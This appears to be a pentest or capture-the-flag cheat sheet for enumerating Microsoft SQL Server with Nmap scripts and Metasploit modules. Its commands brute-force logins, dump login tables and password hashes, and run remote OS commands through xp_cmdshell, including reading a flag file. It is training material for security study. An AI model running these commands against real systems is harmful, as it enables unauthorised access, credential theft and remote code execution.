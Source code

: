 # Enumeration: MSSQL
> MSSQL is Microsoft's version of an SQL database.

- Default MSSQL Port: `1433`

## Contents
- [Nmap Scripts](#)
  - [ms-sql-info](#ms-sql-info)
  - [ms-sql-ntlm-info](#ms-sql-ntlm-info)
  - [ms-sql-brute](#ms-sql-brute)
  - [ms-sql-empty-password](#ms-sql-empty-password)
  - [ms-sql-query](#ms-sql-query)
  - [ms-sql-dump-hashes](#ms-sql-dump-hashes)
  - [ms-sql-xp-cmdshell](#ms-sql-xp-cmdshell)
- [MetaSploit](#metasploit)

## Nmap Scripts

### ms-sql-info
> This gives you a little more info than a standard nmap version scan (e.g., patches applied: true|false).
```
nmap -p 1433 --script ms-sql-info [target ip]
```

### ms-sql-ntlm-info
> This gives us the Target_Name and other similar info
```
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [target ip]
```

### ms-sql-brute
> This gives us some login creds (usernames/pwds)
```
nmap [target ip] -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

### ms-sql-empty-password
> Check for usernames with no password
```
nmap [target ip] -p 1433 --script ms-sql-empty-password
```

### ms-sql-query
```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" [target ip] -oN output.txt
```
- Note: The query statement is the example given in the Nmap [NSE documentation](https://nmap.org/nsedoc/scripts/ms-sql-query.html).
  - You could try [syslogins](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver16) or [sysusers](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16) or etc.
- Run a query using some of the info we've found so far.
- The output is a db dump, so it looks like a mess on your screen. That's why we did the -oN  (output Normal) to a text file.
- Open that text file in a text editor with monospace font
- Lots of goodies there about system and user logins. Enumerate. 

### ms-sql-dump-hashes
> This is good info to enumerate (maybe "pass the hash" later on)
```
nmap [target ip] -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
```

### ms-sql-xp-cmdshell
> Try to run some actual code on the target machine via their mssql instance. If you get a response to the command, you know you can execute code on the remote system.
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
```
> Read a file on the remote system
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

## MetaSploit

Modules to Enumerate MSSQL:
- `mssql_enum` : enumerate MSSQL configuration
- `mssql_enum_sql_logins` : enumerate all MSSQL logins
- `mssql_login` : discover valid users and their passwords
- `mssql_exec` : execute a command on the target machine
- `mssql_enum_domain_accounts` : enumerate all available system users

